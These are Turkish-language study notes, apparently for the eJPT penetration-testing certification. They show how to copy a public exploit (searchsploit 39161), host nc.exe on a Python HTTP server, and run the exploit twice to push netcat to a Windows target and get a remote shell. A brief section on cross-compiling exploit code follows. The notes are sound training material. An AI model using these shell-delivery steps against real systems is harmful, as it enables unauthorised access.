 ## Bulunduğumuz klasöre bunu kaydetmek için
### searchsploit -m 39161    bunu yaptık bizim eJPT klasörümüze geldi.


## Şimdi bu exploit nasıl kullanılıyor nasıl çalışıyor bunu detaylıca okuyorum.
![[Pasted image 20240321121448.png]]
### Diyor ki kendileri -->>>
### 1. Local IP ve Port değiştir
### 2. nc.exe 'yi karşı tarafa göndermek için Python Server aç
## Bunu yapmak için de KALI'den sağolsun 
##### cp /usr/share/windows-resources/binaries/nc.exe .
#### Burada duruyor karşı tarafa atacak nc
###<span style="background:#d4b106"> Burada python -m http.server 80</span>

### 3. python2 39161.py 10.0.2.5 80

![[Pasted image 20240321122448.png]]
## Ve şunu söylüyor 1-2 defa arka arkaya çalıştırmak gerekiyor diyor.

### Python Code şöyle çalışıyor. eJPT klasöründe çalışan python http server ile karşıya nc.exe 'yi atıyor. orada nc.exe çalışınca zaten geçmiş olsun. 1. denemede nc.exe atılıyor. 2 nci deneme de shell direk elinde.

![[Pasted image 20240321124245.png]]
### 3 Terminal açtık yan yana. --->> 3 'ünde de  neler olup bittiğini görmek için.

---

## Cross-Compiling Exploits

#c-kod-derleme
#code-compile
#c-code 
##### Bulduğun exploit code farklı farklı dillerde yazılmış olabilir. Sen bunu nerede çalıştıracaksan o sisteme göre compile etmek zprundasın. 
### In certain cases, exploit code will be developed in C/C++/C#, as a result, you will need to compile the exploit code in to a <span style="background:#d4b106">PE (Portable Executable) or binary.</span>
#### linux --> Binary
#### windows-->> PE portable exe
## Cross-Compiling is the process of compiling code for a platform other than the one performing the compilation. (derlemeyi gerçekleştiren platform dışında bir platform için kod derleme işlemidir.)